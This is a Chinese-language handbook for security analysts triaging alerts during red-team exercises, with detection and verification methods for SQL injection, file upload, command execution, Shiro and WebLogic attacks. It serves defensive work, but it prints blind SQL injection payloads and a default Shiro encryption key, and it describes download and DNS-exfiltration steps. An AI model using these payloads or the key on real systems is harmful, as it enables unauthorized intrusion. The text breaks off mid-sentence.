# 研判分析指导手册

## 目录

- [研判分析思路](#研判分析思路)
  - [是否为误报](#是否为误报)
  - [是否为攻防演习攻击事件](#是否为攻防演习攻击事件)
    - [攻击事件类型](#攻击事件类型)
    - [攻击 IP](#攻击-IP)
  - [攻击是否成功](#攻击是否成功)
    - [响应状态码](#响应状态码)
    - [请求与响应](#请求与响应)
    - [漏洞攻击与应用](#漏洞攻击与应用)
    - [其他](#其他)
- [高频漏洞研判思路](#高频漏洞研判思路)
- [高频工具研判](#高频工具研判)
  - [代理](#代理)
  - [后渗透](#后渗透)
- [高频命令研判](#高频命令研判)

2023/08/22 19:37:16

# 研判分析思路

在攻防演习期间对告警事件进行研判分析时，往往需要考虑以下三个关键问题：

1.告警事件是否为误报？

2.攻击事件是否为攻防演习中攻击方发起？

3.攻击是否成功？

## 是否为误报

对于一个告警事件的研判，首先需要判断该告警事件是否为误报。这里的误报主要指实际没有遭受到攻击事件，但是由于各种原因导致安全产品产生了错误的告警信息。 目前常见的导致安全产品产生误报的情况包含：

1.对于一些攻击采用了较为宽泛的规则匹配，容易产生误报。

2.使用了智能算法引擎识别攻击，但是算法实现不好，容易产生误报。

3.一些特殊的应用场景，流量刚好匹配到了检测规则，但实则是正常的业务流量。这一类误报场景比较多见的如：业务正常的响应内容为十六进制的字符串触发了冰蝎 WebShell 的检测规则。另外，需要注意的是在一些比较老旧的系统，会存在参数直接拼接 SQL 语句进行查询，这些系统本身存在 SQL 注入漏洞，因此正常的业务流量会触发 SQL 注入告警，对于这种情况，如果需要研判是否真实遭受了 SQL 注入攻击则需要分析流量中的SQL 语句是否存在恶意操作。

判断一个告警是否为误报，需要对告警的流量进行分析，比如查看告警详情，查看请求头、请求体内容，主要分析流量中可能是哪些特征触发了告警，确认流量是否包含攻击载荷，如果不包含攻击载荷，则为误报。

另外，对于误报的判断还可以使用排除的方法，例如对于攻防演习期间产生的一个告警事件，如果难以判断是否为误报事件，可以根据历史告警事件来判断该事件是否为误报或者 是否与攻防演习相关的事件，如果在攻防演习开始前就一直存在该事件的告警，则大概率会是误报事件或者与攻防演习无关的事件。

## 是否为攻防演习攻击事件

判断攻击事件是否与攻防演习相关，可以结合以下两个关键要素进行研判。

1\. 攻击事件类型

2\. 攻击 IP

### 攻击事件类型

在攻防演习中，攻击方所发起的攻击主要以获取权限、数据为目标，我们可以从攻击事件对目标造成的影响出发，总结历年攻防演习中攻击者使用的高频攻击，对攻击事件进行分类，从而判断攻击是否为攻防演习中的攻击方发起。

针对 WEB 应用的攻击

1.文件上传

文件上传漏洞是指应用程序在实现文件上传功能时，没有对用户上传的文件类型做严格校验，导致用户可上传任意类型的文件，攻击者可上传 WebShell对服务器进行控制。

常见的文件上传包括应用自实现文件上传、编辑器、中间件部署等。

应用自实现上传：主要指应用开发自实现的文件上传功能， 由于代码对上传文件的类型 没有进行严格的校验或者校验可被绕过导致攻击者可上传 WebShell 。如泛微 OA 、致远 OA 等任意文件上传漏洞。

第三方编辑器：应用常常会使用第三方的编辑器，一些编辑器历史版本曾被披露过文件 上传漏洞，如 FCKeditor 、eWebEditor 、UEditor 、CKFinder 等。

中间件部署：中间件控制台实现了部署应用的功能，攻击者通过默认口令、弱口令等登录进去控制台部署WebShell。

2.命令执行

命令执行漏洞是指应用没有对用户的输入做过滤或者校验等，用户的输入可直接传入可以执行操作系统命令的函数中，导致可执行任意命令。命令执行漏洞常见于运维或者安全产品，因为这些产品有些功能往往需要调用操作系统命令实现，在历年攻防演习中常见的命令执行漏洞包括齐治堡垒机、深信服 VPN 、深信服 EDR 等远程命令执行漏洞。

3.代码执行

代码执行漏洞是指应用没有对用户的输入做过滤或者校验等，导致攻击者可直接传入任意恶意代码进行执行。常见的远程代码执行漏洞有 Struts2 远程代码执行、ThinkPHP 远程代码执行、Jeekins 远程代码执行、泛微 OA beanShell 组件远程代码执行等。

4.反序列化

反序列化漏洞是指应用对用户可控制的数据进行反序列化时，攻击者能够操作序列化的对象，以将有害的数据传递到应用代码中。攻击者利用反序列化漏洞可实现远程代码执行， 进而获取服务器权限。反序列化漏洞常见于 JAVA 语言，如 WebLogic 、Jboss 、WebSphere 等中间件都曾被披露过 JAVA 反序列化漏洞。此外，Shiro 反序列化漏洞和 Fastjson 反序列化 漏洞攻击也是最近两年的攻击中广受攻击方青睐的漏洞。除了JAVA 之外，.NET 语言也同样会出现反序列化的漏洞，如 Exchange 反序列化漏洞。

5.WebShell

WebShell 是指攻击者在进行 WEB 应用攻击时上传到服务器进行控制的代码文件，其本 质是利用代码执行，可对服务器进行文件管理、命令执行等操作。攻击者在利用文件上传、 命令执行、代码执行、反序列化等漏洞时，最终往往会将 WebShell 写入 WEB 应用目录以方便维持对服务器的控制。

6.SQL 注入

SQL 注入攻击是指 WEB 应用程序对用户输入的数据的合法性没有校验或者过滤不严， 攻击者输入的恶意 SQL 语句拼接在 WEB 应用原来定义的查询语句，从而改变了原有的 SQL 查询语句逻辑。利用 SQL 注入，攻击者可获取数据库中的数据信息。另外，在一些特定的数 据库中，利用SQL 注入也可获取服务器权限。如果后端数据库为 MSSQL ，攻击者可能利用 SQL 注入恢复 xp\_cmdShell 存储过程等直接执行命令获取服务器权限；如果后端数据库为  MySQL ，攻击者可能利用 SQL 注入通过 load\_fille 函数读取服务器文件或者通过 into outfile 写入 WebShell。

针对 Windows 的攻击

攻防演习中，针对 Windows 的攻击主要包括口令、域、MS17-010 、CVE-2019-0708 等。

1\. 口令

针对 Windows 的口令攻击主要包括：弱口令暴力破解、口令获取及复用。攻击者在进行 Windows 登录时，一般会使用 SMB 或者 RDP 这两种登录方式。

2.域

3.MS17-010

MS17-010  (永恒之蓝) 攻击也是历年攻防演练中攻击方常用的攻击 Windows 操作系统 的漏洞攻击之一。该漏洞是利用了 Windows 服务器消息块 (SMB) v1 的漏洞，在未安装相 关补丁且 445 端口未关闭的情况下，攻击者可利用该漏洞攻击获取机器权限。

4.CVE-2019-0708

CVE-2019-0708 是 Windows 远程桌面服务的远程代码执行漏洞，该漏洞无需用户交互。 在未安装相关补丁且远程桌面端口 (常见为 3389 端口) 开放的情况下，攻击者可利用该漏洞攻击获取机器权限。需要注意的是，该漏洞攻击容易造成系统蓝屏。

针对 Linux 的攻击

相比 Windows，针对 Linux 的攻击可直接获取权限的漏洞相对比较少，主要还是以 SSH 口令为主，常见的攻击如 SSH 弱口令暴力破解、SSH 口令获取及复用。

其他

对于利益驱动相关的告警事件，如利用漏洞下载执行挖矿病毒、勒索病毒、僵尸蠕虫等， 或者造成实际危害性质的如拒绝服务攻击等，一般都是非攻防演习相关事件。

### 攻击 IP

对于符合以上攻防演习中高频的攻击事件类型，可进一步结合攻击 IP 研判是否为攻防演习相关的攻击行为。这里的攻击 IP 包括攻击源、C2 、VPS 等 IP 信息。

可通过互联网威胁情报、攻防演习中台输出的黑 IP 情报等方式确认攻击 IP 是否在攻防 演习 IP 名单内。或者通过互联网搜索等方式确认攻击 IP 是否为被披露的挖矿病毒、勒索病毒、 僵尸蠕虫攻击事件所属 IOC ，如果符合则表明告警事件大概率为非攻防演习攻击事件。

## 攻击是否成功

研判攻击是否成功，可以分两种攻击类型去讨论：针对 WEB 应用的攻击和非 WEB 的其他攻击。

对于 WEB 应用的攻击研判，研判攻击是否成功的关键要素为响应状态码、请求报文和 响应报文。研判攻击成功与否，可以先通过响应状态码做初步简单判断，通过响应状态码可以快速识别部分攻击成功与否，如果通过响应状态码不能判断的话，则下一步可以结合请求 与响应进行研判。

对于非 WEB 攻击，如果直接从流量的内容进行研判的话，大多漏洞攻击的流量会比较难研判。

### 响应状态码

**404**：404 状态码表示请求资源不存在，即表示攻击失败。如下图，攻击者通过批量扫描常见的 WebShell 以发现目标系统上历史被植入的 WebShell，从而触发了“WebShell 后门程序访问控制” ，响应状态码为 404 可知攻击不成功。



不管是对于什么WEB 漏洞攻击的研判，响应状态码都是研判成功与否的首要研判依据， 如果响应状态码为 404 基本可以研判攻击失败，也就无需再根据请求响应等进一步研判了。 	(当然，这并不是绝对的，也有例外的情况，攻击者在一些情况下也可以篡改响应状态码，  如 WebShell 的响应状态码。现在这种情况不多见，暂时可以先不考虑)  (备注：在指导手册 第三部分的高频漏洞研判，默认都是请求状态为非 404 状态前提下的研判，不再重复响应码 404 状态码的研判思路)

**200**：200 状态码表示请求成功，但是请求成功并不代表攻击成功，具体需要结合请求与 响应进行判断。如下图攻击中，攻击者尝试利用 Struts2 远程代码执行漏洞 (S2-045) 对目标 系统进行攻击，响应状态码为 200 。该漏洞攻击载荷在 HTTP 请求头部的 Content-Type ，分 析该攻击载荷，如果漏洞存在的话会在响应的头部添加testvuln 字段，值为 1234x 1234 即  1522756 。分析响应的头部，并未发现存在testvuln 字段，因此研判该漏洞攻击未成功。



**401**：401 状态表示未授权状态。该状态码返回常见于 HTTP 的 Basic 认证，如 Tomcat 的控制台就是使用 Basic 认证，如果未提交授权认证信息或者授权认证失败。Basic 认证请求 最明显的特征为请求的头部存在 Authorization: Basic Basic64 字符串。其中 Base64 字符串 为“用户名:口令”的 base64 编码，解码后即可获取用户名及口令明文。在攻防演习中，攻 击者可能会通过暴力破解、默认口令尝试等获取 Basic 认证的凭据。如果在某个时间段内出现 大量响应状态码为 401 的请求，则大概率是攻击方在对 Basic 认证进行暴力破解，如果 Basic 认证成功则响应状态码为 200。因此，依靠响应状态码可以研判对于 Basic 认证的攻击是否成功。

如下图响应状态码为 401 ，为 Basic 认证失败的请求：



响应状态码为 200 ，表明 Basic 认证成功。对认证信息进行 base64 解码得知 Tomcat 控制台的用户名及口令为 tomcat:tomcat。



**500**：500 状态码表示服务器内部错误，通常漏洞攻击也会导致出现 500 错误，但是出 现 500 错误并不表示攻击失败，需要根据实际情况研判。如下图，Fastjson反序列化漏洞攻 击，响应状态为 500 ，但是该攻击是成功的，由于漏洞攻击触发了 DNS 查询，因此在 Burp Collaborator 中出现了 DNS 查询的日志。



### 请求与响应

研判攻击非常关键的要素在于流量上下文，即请求和响应内容。通过分析攻击请求，可 以清晰了解攻击者的攻击意图，如利用漏洞攻击执行了什么命令等。进一步的分析响应内容， 判断服务器是否对攻击的请求进行了一致的响应，如果响应和攻击请求一致则表明了攻击成功，漏洞存在。

因此这里根据请求与响应进行研判比较适合于针对 WEB 应用的攻击。

对于 WEB 攻击，我们可以分漏洞攻击结果是否有回显两种情况进行研判。

如果漏洞攻击结果存在回显，可以直接根据请求和响应内容来研判攻击是否成功。 以  S2-016 远程代码执行漏洞为例，下图中左边红框部分就是请求中 S2-016 漏洞攻击的关键攻击载荷。



上面的载荷已经经过 URL 编码处理了，可以先做 URL 解码。



分析攻击载荷，载荷主要实现通过 java.lang.ProcessBuilder 执行 whoami 命令，通过  context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse')获取 HTTP 的响应，并且将执行命令的结果写入响应中。也就是说，如果以上的攻击成功的话，将会在响应中返回执行 whoami 命令的结果。查看响应内容，发现确实返回了whoami 命令执行的结果， 当前用户为 root ，也就是说经过研判得知漏洞攻击是成功



如果漏洞攻击结果不回显，研判会相对比较复杂一点，需要结合漏洞和攻击行为依据实 际情况讨论。

以 SQL 注入漏洞攻击为例，SQL 注入的布尔盲注和时间盲注两种注入方式是没有直接 在响应回显注入结果的。如下图，SQL 注入的数据包中，简单分析下请求和响应数据包，可以发现请求中通过 GET 请求的方式提交了 SQL 注入的语句，但是响应包中为正常的页面信息，不能直接观察请求和响应的内容来进行研判。



对 SQL 注入的语句进行 URL 解码后得到：



可以发现以上的SQL 注入的语句有多个嵌套，从最里层进行分析：

SELECT IFNULL(CAST(COUNT(DISTINCT(schema\_name)) AS CHAR),0x20) FROM INFORMATION\_SCHEMA.SCHEMATA：COUNT 为统计数量的函数，schema\_name 表示数据库名，INFORMATION\_SCHEMA.SCHEMATA 可获取所有数据库信息，综上该语句旨在 获取数据库的数量。

IF(ORD(MID((SELECT IFNULL(CAST(COUNT(DISTINCT(schema\_name)) ASCHAR),0x20) FROM INFORMATION\_SCHEMA.SCHEMATA), 1, 1))>48,0,5) ：MID 为取位函 数，MID(xxx, 1, 1)即取 xxx 的第一位，然后 ORD 为计算 ASCII 码函数，IF 为条件判断，IF(条 件,0,5)即如果条件成立则结果为 0，否则为 5，综上该语句旨在判断数据库数量的第一位 ASCII 码值是否大于 48。

root' AND (SELECT \* FROM (SELECT(SLEEP(5-(IF(ORD(MID((SELECTIFNULL(CAST(COUNT(DISTINCT(schema\_name)) AS CHAR),0x20) FROM INFORMATION\_SCHEMA.SCHEMATA), 1, 1))>48,0,5)))))MYuG) AND 'fISA'='fISA：SLEEP 为 MySQL 的时间延迟函数，整个 SQL 注入语句为如果数据库数量的第一位数字 ASCII 码大 于 48 的话则延迟 5 秒，否则不延迟。

对于以上攻击的研判，可以使用数据包重放的方法，重放数据包看是否产生时间延迟， 如果产生则说明攻击成功。但是需要注意的是以上只是时间盲注的大量数据包中的一条，并且我们不确定以上以上的 IF 判断条件是正确的，因此可以将 SQL 语句进行简化，看是否产生时间延迟即可确认漏洞是否存在，如存在则证明以上的漏洞攻击是成功的。

将 SQL 语句修改为 root' AND SLEEP(5) AND 'fISA'='fISA，可以看到响应延迟了5063ms， 即约5 秒。证明 SQL 语句执行了，即存在 SQL 注入漏洞。



进一步的可以将 SQL 语句修改为 root' AND SLEEP(0) AND 'fISA'='fISA 进行二次确认。 如下，SLEEP(0)即不产生时间延迟。



当然，对于不同的无回显漏洞攻击场景研判方法也不尽相同，有时不需要进行漏洞重放，也能判断漏洞攻击是否成功。如以上 SQL 注入漏洞攻击中，通过 User-Agent 得知攻击者是使用了 sqlmap 工具进行了 SQL 注入攻击，而 sqlmap 注入工具在漏洞利用前会进行漏洞验证， 如果漏洞验证不存在则退出运行，也就是说在漏洞不存在的情况下只会产生简单的漏洞验证流量，不会产生漏洞利用的流量。而上面的攻击流量为漏洞利用过程中获取数据库信息的流量，也间接证明了漏洞是存在的。

特别需要注意的是，攻防演习期间，进行攻击流量重放需要征求客户方的同意，切勿私自重放流量以被误当作为攻击方的攻击流量。另外，在进行流量重放前，需要修改原攻击性质的载荷为对系统不产生实质危害的验证性载荷。

### 漏洞攻击与应用

对于研判攻击是否成功，使用排除法也可以节省很多不必要的攻击研判。这里的排除法主要是判断当前应用的中间件、开发语言、数据库类型等是否与攻击的漏洞相匹配，例如使用 PHP 开发语言的应用，那么出现 WebLogic 反序列化等 JAVA 语言相关的告警事件则可以直接忽略此类事件。

### 其他

对于非 WEB 攻击的研判分析可以根据攻击手法以及告警置信度两个维度来辅助进行研判。

由于非 WEB 攻击会较多的集中在内网渗透阶段，因此可以把研判的重点放在内网渗透攻击攻击者常用的攻击手法。在内网渗透阶段，攻击者的主要目标有三个：

1.快速、批量获取大量机器权限；

2.获取关键系统权限；

3.突破进入生产等核心网络区域。

攻击者往往会通过口令的获取及复用、MS17-010 以及 CVE-2019-0708 等漏洞、获取 Windows 域管理员权限、 获取运维堡垒机或者 EDR 等集中管控设备的权限等手段来获取内网中大量机器的权限。而攻击者如果想要突破网络隔离等限制，则经常会使用寻找一些双网卡机器、获取路由交换器等网络设备权限等手段。

综上，可以关注以下非 WEB 相关攻击事件。

1.SSH 、Windows 口令登录

2.Telnet 登录

3.MS17-010 、CVE-2019-0708 攻击事件

攻击者在内网横向移动的过程中，常常会对内网进行信息收集， 以及口令的复用。因此我们可以关注内网中是否出现单一机器对一个或多个网段的 主机大量端口发起访问的行为， 以及单一机器对一个或多个网段的主机发起 SSH 、SMB 或者 RDP 的登录请求行为。

另外，我们也可以从告警事件的置信度辅助进行研判。 目前安全产品可以实现对一些攻击事件比较精准研判，一般来说，如果内网主机出现一些高精准的告警事件，大概率上说明内网中可能有主机已经被攻陷了。

如下图中，ISOP 平台先后出现了两个告警事件：MS17-010 漏洞攻击、后门程序  Doublepulsar 通信。一般来说这些告警事件的置信度都比较高，而且 Doublepulsar 也是 MS17-010 攻击中向目标机器植入后门的过程之一，根据这两个关联的置信度高攻击基本可以 研判源 IP 192. 168. 116. 139 已经失陷，并且，该机器被当作跳板向内网主机 192. 168. 116. 174 发起了 MS17-010 漏洞攻击。



# 高频漏洞研判思路

1. WEB

   SQL 注入漏洞

漏洞概述：

所谓SQL 注入，就是通过把 SQL 命令插入到请求的参数中，最终达到欺骗服务器执行 恶意的SQL 命令。具体来说，它是利用现有应用程序，将恶意 SQL 命令注入到后台数据库引擎执行的能力，它可以通过输入恶意 SQL 语句获取数据库敏感信息或者执行恶意操作系统命令等。

研判分析：

对于 SQL 注入漏洞的研判，存在多种研判思路，在不同的情况下可以考虑使用不同的方法进行分析。

1.过程分析法

因为利用SQL 注入漏洞获取数据库的数据往往需要一个比较固定的利用过程，比如从漏洞的探测再到漏洞的利用。而在漏洞的利用过程一般又会经历获取数据库名—>获取表名—>获取列名—>获取具体数据。因此，我们可以通过分析 SQL 注入的流量是否包含了完整的攻击过程来进行研判，如果只出现了漏洞的探测过程流量，而没有深入的漏洞利用过程，那就大概率表明漏洞不存在，攻击不成功。过程分析法比较适合用于一些非通用应用的 SQL 注入 漏洞攻击上，因为通用应用的数据库结构一般一致，如具有固定的表名和列名，攻击方可直接通过已获知的表名和列名情况，直接构造 SQL 漏洞利用语句直接获取数据。

如下图为使用sqlmap 工具进行 SQL 注入测试的流量，从流量可以看到基本都是简单的探测是否存在 SQL 注入漏洞，而没有后续漏洞利用的过程，因此大概率不存在 SQL 注入漏洞。



而在下图的流量中存在获取数据库名的流量特征，对于这种情况则大概率是攻击成功的。



总结常见数据库在获取数据库敏感信息 (这里暂不考虑命令执行等利用方式) 的漏洞利用过程中的关键特征，如果出现比较连续有序的漏洞利用过程，且出现了这些特征，需要引起注意。

MySQL：

INFORMATION  SCHEMA 、schema  name、table  name、column  name - -

MSSQL：

master..sysdatabases 、sysobjects.name、syscolumns.name

ORACLE：

SYS.ALL  TABLES 、TABLE  NAME 、SYS.ALL  TAB  COLUMNS - -

2.请求与响应分析

可以根据流量的请求与响应进行分析，从而确认拼接的 SQL 语句有没有被执行。因为 SQL 注入方式可分为 UNION 查询、报错注入、布尔盲注、时间盲注等方式。非盲注的注入方式会在响应包中存在直接的输出反馈，因此根据请求和响应分析可以比较直观明显的判断攻击是否成功。而对于盲注的注入方式，虽然不会在响应中直接输出结果，但是可以结合流量重放的方式去辅助判断。

如下图SQL 注入流量中，分析 SQL 注入语句，提取关键的语句部分简化为：

SELECT schema\_name FROM INFORMATION\_SCHEMA.SCHEMATA ，该语句作用为获取数据库名，使用了 UNION 查询的注入方式，该方式是存在回显的。因此可以直接通过分析响应数据包来判断是否为成功的注入。语句中还使用了 CONCAT 函数对数据库名拼接了一个随机字符串，随机字符串的十六进制为 71706a7171 ，解码之后为 qpjqq 。在响应包中搜索该字符串发现有匹配结果，并且该字符串后面就是 MySQL 的数据库名，可知该SQL 注入 攻击是成功的。



那么对于无回显的SQL 注入攻击如何判断呢。以下图中的布尔盲注为例，分析 SQL 注 入语句的意图，发现为猜解第一个数据库名的第七位字符的 ASCII 码是否大于 64。



可以简单修改该流量然后重放的方式判断攻击是否成功。如下，我们将猜解 ASCII码是 否为大于 64 直接改为是否大于 0 ，该语句为恒成立语句，响应数据包存在查询结果。



再将数据包修改为猜解 ASCII码小于 0 ，该语句为不成立的语句，可以看到响应数据包返回空的查询结果。因此，根据真假条件的设置重放数据包，可证明SQL 注入漏洞是存在的。



3.登录主机排查

SQL 注入漏洞攻击除了可以获取数据库敏感数据之外，在一些场景下还可以通过写入 WebShell 或者执行操作系统命令等获取权限。比较常见的利用方式特征如下：

MySQL 写入 WebShell：INTO OUTFILE

MSSQL 执行命令：xp\_cmdshell

对于这些利用情况，也可通过分析流量，结合登录主机排查的方式确认攻击是否成功。 下图即为利用xp\_cmdshell 执行操作系统命令的流量。



执行的命令经过了十六进制编码，先做十六进制解码后发现执行了certutils 命令从远程 服务器下载了一个恶意文件到 C:\\\Windows\\\Temp 目录。



登录主机发现该目录下确实存在 m.exe 文件，可确定该攻击已经成功。



1. 任意文件上传漏洞

漏洞概述：

任意文件上传漏洞是由于应用上传功能没有对用户上传的文件做校验或者校验不严格导致攻击者可上传任意文件，攻击者可通过任意文件上传漏洞上传 WebShell对服务器进行控制。

研判分析：

对于文件上传攻击的研判，可以先从请求和响应入手。在请求数据包中着重关注上传数 据包的文件名以及文件内容。如果文件后缀名为.php 、.php3 、.php5 、pht 、phtml、asp、asa、 cer、aspx 、asmx、jsp、jspx 、war 等，则需要特别关注。进一步需要再结合文件内容判断是 否为恶意的文件上传请求。对于文件内容是否为恶意，可以查看是否包含一些敏感的函数，常见的如命令执行、代码执行函数等，如果对于文件内容是否恶意识别存在困难，可以和常 见的 WebShell 进行特征匹配，可通过搜索引擎搜索关键代码行或者将文件内容保存在本地， 再借助 D 盾\_Web 查杀等工具进行扫描等方式确定文件是否为恶意。



在下图文件上传数据包中，上传的文件后缀为 php ，文件内容包含 eval 、call\_user\_func 等代码执行函数，该文件为冰蝎 WebShell ，可判定上传的行为为恶意攻击行为。

对于判定是否成功，可以根据响应的数据包内容、访问上传文件的 URL 、登录服务器查 看文件是否上传成功等方式确认是否攻击成功。

上图中，响应数据包可以看到成功返回了上传后的文件地址。攻击者在进行非法文件上 传后下一步就是往往就是根据响应返回等方式获取 WebShell 的访问路径，再访问 WebShell 执行恶意操作。



另外，也可通过登录服务器查看最近文件的变化情况来排查 WebShell 是否被上传成功， 如执行命令 find / -name " *.php*" -ctime -3 查看最近三天被改动的 php 相关文件，看到被上传 了 test.php 以及 Shell.php。

下一步可以通过访问上传文件的 URL 方式确认 WebShell 是否被成功解析，如果WebShell 文件被成功上传，但是无法被解析执行的话是不对服务器造成危害的，即攻击不成功。如果访问看不到原始文件内容的话大概率是可以被服务器解析的，如下图可知 WebShell 可被解析。





也可以从流量中确认攻击者是否访问了该 WebShell 并且被解析执行，如下，从历史流量中回溯，发现存在该 WebShell 的访问记录，并且返回的响应内容为加密的流量，符合冰蝎 WebShell 的访问特征。

1. 命令执行漏洞

漏洞概述：

命令执行漏洞，也叫命令注入漏洞，是指由于应用对用户提交的数据过滤不严格，导致攻击者可通过命令拼接构造特殊命令字符串的方法，将恶意的命令传入到可执行操作系统命令的方法中，从而造成任意命令执行。

在命令执行漏洞的利用中，比较常见的利用方法有：

1\) 利用命令执行漏洞写入 WebShell

2\) 在服务器为 Linux 系统的情况下，利用命令执行漏洞执行反弹命令，获取服务器的 Shell

3\) 在服务器通外网的情况下，执行远程下载命令，下载恶意的脚本或者木马等文件， 运行后控制服务器。

研判分析：

由于命令执行漏洞会出现有回显和无回显两种情况，研判思路也可以分这两种情况讨论。

1.存在回显的情况

对于存在回显的远程命令执行漏洞研判，可以根据响应的内容来判断命令是否被成功执 行了。下图中，攻击者通过命令执行漏洞执行了whoami 命令，分析响应的数据包，发现返回的数据包中包含了www-data 字符串，该字符串即为执行whoami之后返回的用户名，因此可 知该攻击是成功的。



2.无回显的情况

对于无回显的命令执行漏洞攻击，可通过流量重放或者分析攻击者行为，通过流量回溯、服务器排查等方式进行研判。

如下图，攻击者尝试通过 OOB (Out-Of-Bound) 的方式，将 whoami 命令执行的结果通 过 DNS 带出。



该 DNS 为 burpsuite 提供的，一些安全产品已经把一些攻击者常用的一些 DNS 平台加 入了检测规则，如果触发了相应的 DNS 查询则可大概率判为出现了攻击。如下图，命令执行 告警事件后紧接着出现了访问 DNSLog 平台对应的告警事件。



查看告警事件详情，根据查询的域名响应进一步确认攻击是否成功，如下图，whoami 命令执行的结果在 DNS 域名中，可知攻击是成功的。



对于使用 OOB 攻击将命令结果带出的情况，还需考虑到攻击者可能使用自搭建的 DNSLog 平台的情况，这些平台地址是不在检测规则的名单中的，但是，我们也可以通过流 量回溯的方式去检索任意域名的查询情况，如：





另外，如果命令执行漏洞有造成文件落地或者恶意进程执行的情况，我们也可以通过登录服务器进行研判。如下图攻击流量中往/var/www/commandexec 目录写入了 test.php 文件。

登录服务器进行排查发现该目录下确实存在 test.php ，该文件为冰蝎 WebShell ，可知该攻击事件是成功的。



1. Shiro 反序列化漏洞

漏洞概述：

Shiro≤1.2.4 版本默认使用 CookieRememberMeManager ，当获取用户请求时，关键处理过程如下：

· 获取 Cookie 中 rememberMe 的值

· 对 rememberMe 进行 Base64 解码

· 使用AES 进行解密

· 对解密的值进行反序列化

由于 AES 加密的 Key 为硬编码的 Key，因此攻击者可通过使用默认的 Key 对恶意构造的 序列化数据进行加密，当 CookieRememberMeManager 对恶意的 rememberMe 进行以上过 程处理时，最终会对恶意数据进行反序列化，从而导致反序列化漏洞。另外，需要注意的是 不仅仅使用默认 Key 会存在反序列化漏洞，只要 Key 能被攻击者通过其他方式获取到，例如 使用了互联网上已公开的常见 100 个 Key ，同样会存在反序列化漏洞。

研判分析：

1.是否使用了 Shiro 框架

对于 Shiro 反序列化漏洞攻击的研判，首先可以判断应用是否使用了 Shiro 框架。判断方 法非常简单，可以通过分析攻击数据包判断或者进行简单测试判断。

攻击者在进行 Shiro 反序列化漏洞攻击时，会在请求数据包头部的 Cookie 添加  rememberMe=xxxx 字符串，如果响应数据包的头部返回 Set-Cookie: rememberMe=deleteMe 的话则应用使用了 Shiro 框架。需要注意的是如果攻击者使用构造继承 PrincipalCollection 的 空对象探测 Shiro 的 Key 时，如果 Key 正确的情况下响应包头部则不会返回 Set-Cookie: rememberMe=deleteMe ，因此在完整的 Shiro 反序列化漏洞攻击中可能会出现几个数据包不 会返回 Set-Cookie: rememberMe=deleteMe 的。



或者使用 burpsuite 进行测试，请求目标 URL 并抓取数据包，并且在在请求数据包的头 部添加rememberMe=xxxx 字符串，数据包的头部返回 Set-Cookie: rememberMe=deleteMe 则应用使用了 Shiro 框架。



2.是否为误报

由于 Shiro 反序列化攻击流量为加密的流量，很多安全产品没有尝试先对加密的 rememberMe 先进行解密再检测是否有恶意特征，而是直接匹配到 Cookie 中存在一定长度的 rememberMe 就会触发告警。在使用 Shiro 框架的应用中，正常的用户登录过程中，也会出现 Cookie 中包含 rememberMe ，因此会造成一些误报。如下图，为一个正常的用户登录数据包：



这种情况下可使用在线工具对加密的 rememberMe 进行解密，再判断是否存在恶意流量。 [https://simolin.cn/tools/shiro/](https://simolin.cn/tools/shiro/ "https://simolin.cn/tools/shiro/")

如下图，解密出来的内容可以看到是和用户身份相关的，没有恶意的特征，对于这种流量则是正常的。但是需要注意的是，如果正常业务流量中 rememberMe 能被解密，无论有没有遭受到攻击，Shiro 反序列化漏洞是确实存在的，下图流量中就可以知道 Shiro 加密使用了 默认的 Key。



再如以下流量，解密出来发现存在攻击特征，ysoserial 是 JAVA 反序列化漏洞生成  payload 的工具，org.apache.commons.beanutils.BeanComparator 表明使用的 payload 为 CommonsBeanutils1 ，whoami 表示利用漏洞执行了 whoami 命令。



3.Shiro 版本是否为漏洞影响版本

通过登录服务器，查看应用的依赖的 Shiro 版本是否≤1.2.4 。需要注意的是并不是说Shiro>1.2.4 版本就不存在反序列化漏洞，如果开发自定义了 Shiro 的密钥为常见的 Key ，或者攻击者通过文件读取等方式获取了 Shiro 的密钥，同样会存在反序列化漏洞的风险。



也可以使用测试的方法辅助判断，工具链接：<https://github.com/wyzxxz/shiro_rce_tool，> 使用 shiro\_rce\_tool 工具测试是否可获取 Key ，如下图可知 Key 为默认的  kPH+bIxk5D2deZiIxcaaaA==



4.攻击是否成功

Shiro 反序列化漏洞的利用默认是无回显的，也就是说攻击者执行恶意命令等不会在响应的数据包中显示执行命令的结果，但是攻击者可以通过构造回显的方式使得该漏洞支持回显。 对于判断攻击是否成功可以分为存在回显和没有回显两种情况进行判断。

对于存在回显的情况，研判攻击是否成功比较简单，直接通过查看请求响应包的方式即 可。如下图，利用漏洞执行 whoami 命令，在响应的头部存在 result:root ，可知攻击成功，命令执行了。需要注意的是，在实际攻击中，回显不一定是在响应的头部，还需要留意响应的内容。



对于没有回显的情况，研判 Shiro 反序列化漏洞是否成功的关键是通过解密 Shiro 攻击的 流量确认攻击者执行的恶意操作，并且通过登录服务器排查网络、进程、文件等方式确认是否攻击是否成功。如下图，利用漏洞执行了 wget 命令，从远程服务器下载了一个 python脚 本文件。



登录服务器排查 tmp 目录发现确实存在test.py脚本，可知攻击成功。



1. WebLogic 反序列化漏洞

CVE-2015-4852

漏洞概述：

Oracle WebLogic Server 10.3.6.0 、12. 1.2.0 、12. 1.3.0 和 12.2. 1.0 中的 WLS 安全组件 允许远程攻击者通过 T3 协议流量中特制的序列化 JAVA 对象执行任意命令，该漏洞与 Apache Commons Collections 组件库相关。

研判分析：

对于 CVE-2015-4852 漏洞的利用，攻击者往往会通过反弹 Shell、写入 WebShell、远程 下载恶意文件运行等方式获取对服务器的控制权。

以使用 WebLogic\_EXP.jar 这个工具对 CVE-2015-4852 进行漏洞攻击为例(不同的漏洞 利用工具产生的特征不尽相同，这里只是提供一些研判思路，有些方法不是在所有情况下都 通用) 。部分流量如下图，漏洞的利用走的是 T3 协议，同时在数据包中可看到 Apache  Commons Collections 组件库漏洞相关的类

org.apache.commons.collections.map.TransformedMap ，并且如果漏洞利用成功，该工具会 尝试往 Linux 的/tmp/和 Windows 的 C:/windows/temp/目录下写入 1vBLBK.tmp 文件。



可登录服务器排查该文件是否存在该文件，如果存在该文件证明漏洞存在，攻击是成功 的。



另外，也可以在 AdminServer 的日志搜索 1vBLBK 字符串，如果存在则说明攻击成功。



如果执行了可以回显的命令，可以通过分析流量包研判是否成功。如下图，可知执行 whoami 和 ifconfig 命令成功。



对于 WebShell 的排查，可以执行以下命令查看最近三天时间内是否存在 WebShell 上传 成功。



CVE-2017-10271

漏洞概述：

WebLogic ServerWLS 组件存在 XMLDecoder 反序列化漏洞，该漏洞允许攻击者通过构

